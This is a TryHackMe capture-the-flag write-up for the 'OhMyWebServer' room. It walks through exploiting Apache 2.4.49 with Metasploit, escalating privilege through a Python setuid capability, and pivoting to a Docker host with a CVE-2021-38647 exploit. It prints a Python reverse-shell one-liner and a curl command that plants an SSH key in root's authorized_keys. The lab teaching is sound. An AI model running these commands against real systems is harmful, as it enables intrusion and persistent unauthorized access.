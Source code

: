 ```yaml
---
title: "TryHackMe - OhMyWebServer"
author: Nasrallah
description: ""
date: 2022-11-29 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, rce, cve, capability, getcap, metasploit, docker]
img_path: /assets/img/tryhackme/ohmyweb
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [OhMyWebServer](https://tryhackme.com/room/ohmyweb) from [TryHackMe](https://tryhackme.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.205.62
Host is up (0.10s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0d188762a9379d391046d25160e56d4 (RSA)
|   256 91185c2c5ef8993c9a1f0424300eaa9b (ECDSA)
|_  256 d1632a36dd94cf3c573e8ae88500caf6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-server-header: Apache/2.4.49 (Unix)
|_http-title: Consult - Business Consultancy Agency Template | Home
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running OpenSSH 8.2p1 and 80 running Apache http web server 2.4.49.

Searching on [exploit-db](https://www.exploit-db.com/) we find that this apache version is vulnerable path traversal and remote code execution.

![](1.png)

# **Foothold**

There is a metasploit module available to exploit this vulnerability called `exploit/multi/http/apache_normalize_path_rce`, let's use it and set the options.

```terminal
msf6 exploit(multi/http/apache_normalize_path_rce) > set rhost 10.10.10.10
msf6 exploit(multi/http/apache_normalize_path_rce) > set lhost tun0
msf6 exploit(multi/http/apache_normalize_path_rce) > set rport 80
msf6 exploit(multi/http/apache_normalize_path_rce) > set ssl false 
```

Now let's run the exploit.

![](2.png)

Great! We got a shell. But i decided to get a full tty shell by setting up a listener on my machine and executing the following command on the compromised machine.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![](3.png)

# **Privilege Escalation**

We can see that we're a docker container from the name of the host and from the hidden directory in root `/`.

![](4.png)

After some enumeration, checking the capabilities in the machine we find the following:

```terminal
daemon@4a70924bafa0:~$ getcap -r / 2>/dev/null 
/usr/bin/python3.7 = cap_setuid+ep
```

We python have the setuid capability, let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities).

![](5.png)

Run the following command to become root.

```bash
python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![](6.png)

After that we run `ifconfig` and find some interesting stuff.

```terminal
root@4a70924bafa0:/root# ifconfig 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 4818  bytes 4205388 (4.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3304  bytes 689936 (673.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

We see that our IP is `172.17.0.2`, this means there is another docker container at `172.17.0.1`.

Let's upload a [nmap](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) static binary and scan that container.

```bash
root@4a70924bafa0:/root# chmod +x nmap 172.17.0.1 -p- --min-rate 6000

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-10-28 07:36 UTC
Unable to find nmap-services!  Resorting to /etc/services
Failed to resolve "https:".
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000030s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
MAC Address: 02:42:4D:1E:79:D8 (Unknown)
```

We found three open ports. The port 5986 is not common, so i searched for it on google an found it's vulnerable to remote code execution, here's the [exploit](https://github.com/AlteredSecurity/CVE-2021-38647/).

Let's upload the exploit to the compromised machine a run it.

![](7.png)

Great! we can execute command as root.

Let's upload our ssh public key and put in `authorized_keys` file using the following command:

```bash
python3 exploit.py -t 172.17.0.1 -c 'curl http://10.18.0.188/sirius.pub -o /root/.ssh/authorized_keys'
```

Now we can ssh into the machine as root without a password.

![](8.png)



---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

